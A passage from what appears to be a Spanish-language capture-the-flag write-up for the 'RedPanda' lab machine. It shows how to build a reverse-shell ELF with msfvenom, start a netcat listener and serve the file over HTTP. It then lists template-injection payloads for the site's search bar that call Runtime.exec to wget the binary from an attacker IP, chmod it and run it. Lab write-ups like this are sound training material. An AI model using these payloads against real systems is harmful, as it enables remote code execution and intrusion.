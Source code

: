{:.note}
Exploit en pyton para entablar una shell contra el servidor.


***

### Segunda opccion.


En primer lugar, necesitaremos generar una shell inversa usando msfvenom. Recuerda sustituir el valor LHOST por la dirección IP de tu máquina de ataque.


```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.57 LPORT=443 -f elf > r.elf
```


Pon a la escucha el netcat yo siempre lo hago asi `nc -lvnp 443`y levantar un servidor HTTP en la misma ubicación que r.elf, utilizando `python3 -m http.server`, a continuación, envíe los siguientes comandos uno a uno sobre la barra de búsqueda del sitio web para transferir r.elf, cambiar el permiso y ejecutarlo.


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/r.elf")}
```


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}
```


{:.note}
Ya que podemos darle permisos desde aqui es algo que vamos aprovechar.



```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}
```


{:.note}
Al esjecutar este one-liner se establecera la coneccion con el servido atraves de una `reverse-shell` por eso dejamos a la escucha netcat.


Y para seguir aprovecahando la vulnerabilidad de cara al futuro en la misma ubicacion decargate el `pspy64` y el `LinEnum`, podriamos usar.


![list](/assets/img/redpanda/Kali-2022-09-02-01-33-49.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Listo para enviar al servidor. 
